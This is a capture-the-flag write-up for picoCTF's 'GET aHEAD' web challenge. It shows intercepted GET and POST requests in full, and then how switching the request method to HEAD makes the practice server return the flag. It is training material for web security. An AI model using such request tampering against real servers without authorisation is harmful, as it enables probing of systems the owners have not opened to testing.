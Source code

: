 # Challange Info

Name : GET aHEAD

Difficulty : Easy

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/132?category=1&page=1

# Writeup

Navigating the webpage http://mercury.picoctf.net:53554/.

There were two options Choose Red and Choose Blue.

Intercepting both requests with Burpsuite.

The Choose Red was a GET request.

```
GET /index.php? HTTP/1.1

Host: mercury.picoctf.net:53554

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

And Choose Blue was a POST request.

```
POST /index.php HTTP/1.1

Host: mercury.picoctf.net:53554

Content-Length: 0

Cache-Control: max-age=0

Origin: http://mercury.picoctf.net:53554

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php?

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

Both request didn't had any data which could be modified but something was off why there was two different type of request used when it could be done from only one request type.

I searched internet for different types of requests.

```
GET
POST
PUT
DELETE
PATCH
HEAD
OPTIONS
TRACE
CONNECT
```

Out of all of these i tried modifying GET request and replacing GET header with HEAD.

```
HEAD /index.php? HTTP/1.1

Host: mercury.picoctf.net:53554

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

In response of this request there was the flag.
